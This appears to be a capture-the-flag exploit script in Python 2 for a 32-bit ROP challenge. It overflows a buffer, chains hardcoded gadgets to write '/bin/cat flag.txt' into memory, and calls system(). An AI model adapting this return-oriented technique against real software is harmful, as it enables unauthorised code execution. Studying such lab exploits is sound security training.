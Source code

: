 ```python

padding = 'A'*44
data_addr = 0x0804a028
popal = p32(0x080485f3)
mov_ecx = p32(0x08048693) #mov dword ptr [ecx], edx; pop ebp; pop ebx; xor byte ptr [ecx], bl; ret;                                                                                    
usefulFunction = p32(0x804864c)
pwnme = p32(0x80485f6)
system = p32(0x8048430)

def write(string,offset=0):
    write_chain = popal
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    write_chain += string
    write_chain += p32(data_addr+offset)
    write_chain += p32(0x0)
    write_chain += mov_ecx
    write_chain += p32(0x0)
    write_chain += p32(0x0)
    return write_chain

payload = padding

#first write
payload += write('/bin',0)

#second write
payload += write('/cat',4)

#third write
payload += write(' fla',8)

#fourth write
payload += write('g.tx',12)

#last write
payload += write('t\x00\x00\x00',16)

#system("/bin/cat flag.txt")
payload += system
payload += p32(0x0)
payload += p32(data_addr)
payload += p32(0x0)

print payload
```
